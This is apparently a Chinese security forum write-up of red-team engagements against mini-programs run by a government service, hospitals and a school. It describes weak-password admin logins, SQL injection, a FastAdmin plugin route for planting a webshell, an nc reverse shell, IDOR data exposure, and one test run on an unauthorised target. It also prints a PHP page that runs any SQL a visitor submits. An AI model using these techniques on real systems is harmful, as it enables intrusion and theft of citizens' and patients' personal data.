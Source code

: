 0x00 前言
-------

> 刚结束某地HVV，小程序作为低成本易用的信息化系统，成为HVV新型重点突破对象。以下案例均来自于小程序，供大家学习。

0x01 案例一 某政务系统
--------------

### 1.弱口令进入后台

点击小程序，进入公民办事，抓到小程序域名，访问直接是管理员后台，如下页面即为Fastadmin框架 。

![image-20230804233808809](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-2a5fba3396c1a276bc140f7bc766cafb85e172a2.png)

一直有个坑，登录一直显示口令无效，在我要放弃的时候，点击返回上一步提醒我，您已登录，我纳闷了，发现该系统登陆操作后token会刷新，导致下一次登录必须使用上一次token，否则口令无效。因此应该是网络或系统本身有延时，导致未成功使用正确token进行登陆操作，当发现这个问题的时候我已经admin/123456登进了后台。

![image-20230804233928487](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-e446afd11627d19ce32b77d941d08639d73fa88e.png)

内包含数据近20000条公民信息，以及管理员账户几百个，且所有管理员账户中的账户名密码均为admin/123456。与[地级市HVV | 未授权访问合集](https://forum.butian.net/share/1877)中的案例四系统情况类似。（码死）

![image-20230804234620409](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-b9631f66f0293cbc20d834b4ac599881a71f7784.png)

### 2.到处都是SQL注入

前台业务处如下包，debug没有关导致爆出来数据库账户名密码，这个SQL注入太明显了，但此时我处在数据库账密的喜悦中没有搞SQL注入，可是这个数据库不对外，只能本地连接，烦死了。

![image-20230804234900245](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-6d0679aaeb701b9eb1eb8374a3c74aa5017697b8.png)

![image-20230804235223957](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-4ed1411f61d7466da08f47389b6f2a9e2c9632a5.png)

后台查看管理员的时候存在延时注入

![image-20230804235333429](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-e67dc431a9810fbcfb0b11f34e0e101644b75eb3.png)

![image-20230804235520250](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-1cc9a826a1ea7c019050d47dbe4bf35565626bbd.png)

### 3.命令执行拿下服务器和数据库

既然是fastadmin，那有很多拿shell的方法，这次是用在线命令插件漏洞写入PHP Webshell，该漏洞只在1.1.0可用。

但是这个系统是二开的，根本找不到插件的地方，在网上搜罗了一下拼接找到插件页面。

目录为：/addon?ref=addtabs

那该插件的目录就应该是/addon/command?ref=addtabs，但是显示该页面不存在，我以为路由没设置，把这个禁了，直到队友在一个文章发现直接command即可访问该插件，即目录为/command?ref=addtabs

![image-20230805000548485](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-d8850d06c2db9eaf1a97e0b2c97628e20d671199.png)

点击一键生成API文档，文件为php，标题写为木马内容即可，测试只有冰蝎马可以，以前有类似案例。

![image-20230805000747580](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-dcbc696189632682e6b5bbc9aba77b9fe1ed8018.png)

连接木马成功

![image-20230805000951036](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-684d7e1943f1e59e55be23f12db13aa5fcccfe53.png)

通过传大马中的nc提权，反弹shell到云服务器拿到root权限。

![image-20230805001343057](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-aac04832a4be9f03e480b9345fd3e22f94715002.png)

大马执行sql语句会报错，乱码，很烦。

数据库账户密码我还记着呢，我通过自己写一个sql执行页面的php文件来连接数据库。证明我拿下数据库权限。

![image-20230805001445813](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-4fb8a2ef54ae5028053a9f32a739027091d3130e.png)

代码如下：

```php

<html>
<head>
    <title>执行MySQL语句</title>
</head>
<body>
    <h1>执行MySQL语句</h1>

    <form method="POST" action="">
        <textarea name="sql_statement" rows="5" cols="50" placeholder="请输入MySQL语句"></textarea>
        <br>
        <input type="submit" value="执行">
    </form>

    <?php
    // 检查是否提交了表单
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        // 获取用户输入的MySQL语句
        $sql_statement = $_POST['sql_statement'];

        // 连接MySQL数据库
        $host = 'localhost';
        $username = '';
        $password = '';
        $database = '';

        $connection = mysqli_connect($host, $username, $password, $database);

        // 执行MySQL查询
        $result = mysqli_query($connection, $sql_statement);

        // 检查查询结果
        if ($result) {
            // 回显查询结果
            echo '<h2>查询结果：</h2>';
            while ($row = mysqli_fetch_assoc($result)) {
                echo '';
                print_r($row);
                echo '';
            }
        } else {
            // 显示错误消息
            echo '<h2>错误：</h2>';
            echo '<p>' . mysqli_error($connection) . '</p>';
        }

        // 关闭数据库连接
        mysqli_close($connection);
    }
    ?>

</body>
</html>
```

0x02 案例二 某县医院数据库
----------------

### 1.SQL注入拿下DBA

该医院的SQL注入处于公众号挂号处，当我登录进去点击挂号记录，抓到一个带病人id的包。

![image-20230805001938526](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-38dedc4d5272dfae5344847399a57bee1d645e77.png)

加了个单引号，出现报错order by

![image-20230805002523985](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-8e14f7b56f2a754d56628bb07c242307f80425b7.png)

直接SQLmap跑发现跑不出来，但注入确实存在。发现asp.net框架，说明对方系统为windows。

![image-20230805002955771](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-40ddf255d62824cbbf3ff54b42128ab2143db9db.png)

分别指定数据库MySQL，Oracle，MSSQL。终于在MSSQL时跑出注入，且为DBA权限。

![image-20230805003357942](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-c54f6354383543e073a179d59dd6bacd9906bd6c.png)

想到xp\_cmdshell可以执行命令，但可惜这是HIS，人家做了防护，我无论怎么设置都无法执行命令，放弃换目标。

0x03 案例三 某中学访客系统
----------------

### 1.未授权+信息泄露

打开小程序抓包，直接抓到了所有被访人的信息，一个接口未授权访问。

![image-20230805003829804](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-474312fc772477b2517f9a8f21c6bed2dff3d522.png)

还没登录就这样，登进去还了得。

登进去并添加了一个访问申请![image-20230805004820411](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-6c924a4746cd888c713321d245e8488a44d77d8b.png)

在查看自己的访问申请记录时抓包

![image-20230805004432163](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-f079dd07d05db070c0539e702290d3ad84c8f588.png)

抓到如下链接：app/visitor/getVisitorInfo?viId=1，遍历可得到访客信息几百条，以及访客记录等。认定为平行越权，最后发现甚至是未授权访问，没有权限验证。

![image-20230805004401655](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-d53705ec06515fc4bd3c355ddce15057e50fbe32.png)

0x04 案例四 我打偏了
-------------

这个案例比较好笑，是我在搜小程序，它弹出了差一个字的小程序，没仔细看就开始打，也是一个县医院。

这应该是疫情期间专门为核酸检测预约做的小程序。

### 1.平行越权+信息泄露

![image-20230805005119179](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-8675370e9a33f9552bf6c7d231f463366acf2eea.png)

登录的时候如果身份证姓名不匹配是无法通过验证的，说明里面的身份证信息都是真实的，登进来的习惯性找带用户id的功能，点击就诊人列表抓包。

![image-20230805005822924](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-ff2a042a1946653cfda9ebaccc864e309e4579dc.png)

查到了自己的手机，身份证，名字，性别

![image-20230805010022930](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-69e4ab746cab087d1b5b631fd2393e42ebd3bae4.png)

修改id可以查看其他人的信息，共计十几万条，妥妥的平行越权。

### 2.平行越权的SQL注入

习惯性加个单引号，直接报错，页面显示SQL错误，这不是对应上了嘛，[edu-SQL注入案例分享](https://forum.butian.net/share/2320)最后一条总结，平行越权大概率存在SQL注入。但是我这打歪了，没有授权，就打住放弃了，后续移交平台整改。

![image-20230805010332476](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-7a65ae36b69ee6bc760493c4b4b0f38ddb042afe.png)